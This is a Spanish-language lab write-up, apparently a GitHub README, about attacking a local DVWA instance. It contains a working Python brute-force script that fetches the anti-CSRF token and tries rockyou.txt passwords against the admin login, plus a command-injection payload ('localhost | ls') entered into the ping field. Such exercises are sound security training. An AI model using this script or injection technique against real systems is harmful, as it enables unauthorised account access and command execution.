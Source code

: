 # Fuerza Bruta en DVWA - Práctica

## 📋 Descripción

Esta práctica consiste en realizar un ataque de fuerza bruta a la aplicación **DVWA (Damn Vulnerable Web App)** para romper la autenticación del módulo de **Brute Force** utilizando un script en Python y el diccionario `rockyou.txt`.

## 🛠️ Entorno de trabajo

- **Sistema Operativo**: Linux Mint 21
- **Aplicación objetivo**: DVWA (Damn Vulnerable Web App)
- **IP DVWA**: `172.17.0.2` (localhost)
- **Lenguaje del script**: Python 3
- **Herramientas utilizadas**:
  - Python 3
  - Librerías `requests` y `BeautifulSoup`
  - Diccionario `rockyou.txt`

## ⚙️ Configuración inicial

- **Estado de seguridad de DVWA**: `High`
- **Configuración de la base de datos**: Correcta
- **Observaciones**: Se requiere el token `user_token` en cada petición.

![Setup DVWA](assets/1-DVWAsetup.PNG)

## 🧩 Script de Fuerza Bruta

El script realiza las siguientes acciones:
- Establece una sesión usando cookies para seguridad alta.
- Obtiene dinámicamente el `user_token` necesario para cada intento.
- Prueba contraseñas del diccionario `rockyou.txt` una a una.
- Detecta el éxito cuando encuentra el mensaje `Welcome`.

Fragmento del script:

```python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = 'http://172.17.0.2/vulnerabilities/brute/'
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=high; PHPSESSID=rqs9b9elru16hltg6gvagkek195"

r = requests.get(url, headers=headers)
r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open('rockyou.txt', 'rb') as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            al = i.decode()
        except UnicodeDecodeError:
            print(f"can't decode {i}")
            continue

        r = requests.get(f'http://127.0.0.1/vulnerabilities/brute/?username=admin&password={al}&Login=Login&user_token={user_token}#', headers=headers)
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        
        print(f'checking {al}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{al}   ===found===')
            break
```
## ✅ Resultado

El ataque fue exitoso: se encontró la combinación correcta de usuario y contraseña.

Resultado obtenido en la ejecución:

<p align="center">
  <img src="assets/3-BruteForceResultado.PNG" alt="Resultado Bruteforce" width="600">
</p>

## 🧩 Command Injection

En este módulo de DVWA se explota una vulnerabilidad de **inyección de comandos** en el parámetro usado para hacer ping a una IP.

### 🔍 Acciones realizadas:

- Se accedió al apartado **Command Injection** en DVWA.
- En el campo “Enter an IP address” se introdujo un comando malicioso: `localhost | ls`
- Esto permite inyectar un segundo comando (`ls`) y ejecutar código arbitrario en el sistema.

### 💡 Comando utilizado: localhost | ls

Esto ejecuta el ping a `localhost`, y luego el comando `ls` que lista el contenido del directorio actual del servidor.

### 📷 Captura del ataque:

<p align="center">
  <img src="assets/4-CommandInjection.PNG" alt="Command Injection en DVWA" width="600">
</p>

## ✅ Resultado

Se observó que la aplicación ejecutó correctamente ambos comandos (`ping` y `ls`), mostrando la salida del segundo dentro del navegador, lo que confirma la vulnerabilidad.
